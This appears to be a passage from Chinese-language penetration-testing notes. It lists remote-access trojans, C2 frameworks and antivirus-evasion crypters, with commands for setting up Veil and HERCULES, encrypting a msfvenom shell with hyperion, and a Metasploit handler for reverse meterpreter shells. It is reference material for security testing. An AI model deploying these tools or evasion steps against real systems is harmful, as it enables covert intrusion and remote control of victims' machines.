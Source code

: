 - [trustedsec/trevorc2](https://github.com/trustedsec/trevorc2) - 走 HTTP 的 C2
- [AhMyth/AhMyth-Android-RAT](https://github.com/AhMyth/AhMyth-Android-RAT) - 用于 android 的 RAT
- [neoneggplant/EggShell](https://github.com/neoneggplant/EggShell) - 用于 iOS/macOS/Linux 的 RAT
- Metasploit
- [Veil](https://github.com/Veil-Framework/Veil)
    ```bash
    git clone https://github.com/Veil-Framework/Veil.git
    cd Veil/setup/
    ./setup.sh -c
    ./Veil.py
    ```
- [HERCULES](https://github.com/noosec/HERCULES)
    ```bash
    确保电脑里有 Go
    git clone https://github.com/noosec/HERCULES.git
    cd HERCULES
    wget -c https://github.com/fatih/color
    go get github.com/fatih/color
    go run Setup.go
    cp -rf /root/go/src/github.com /usr/lib/go-1.7/src/github.com
    cd SOURCE/
    go run HERCULES.go
    ```
- [ASWCrypter](https://github.com/AbedAlqaderSwedan1/ASWCrypter)
- [Shellter](https://www.shellterproject.com/)
- [foolav](https://github.com/hvqzao/foolav)
- [hyperion](https://github.com/nullsecuritynet/tools/tree/master/binary/hyperion)
    ```bash
    unzip hyperion.zip
    cd hyperion/
    i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe
    wine hyperion.exe shell.exe(之前用 msf 生成的文件) crypted.exe(混淆之后的文件)
    ```
- [d4rk007/RedGhost](https://github.com/d4rk007/RedGhost) - linux 的后渗透框架,可用于权限维持、提权等操作，半图形化.实际测试感觉不太行。
- [f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)

---

### msfvenom

msfvenom 可用于生成正向或反向 shell 的 payload，配合 meterpreter 使用进行渗透测试相当方便，不过在实际使用时，需要进行相应的免杀处理

**查看**
```bash
msfvenom -l [ payloads | encoders | nops | platforms | archs | encrypt | formats | all ]
```

**连接**
```bash
msfconsole
use exploit/multi/handler
set payload <payload-name>      # 例如 set payload windows/x64/meterpreter_reverse_tcp
set lhost <lhost>
set lport <lport>
set EnableStageEncoding false
set ExitOnSession false
exploit -j -z
```

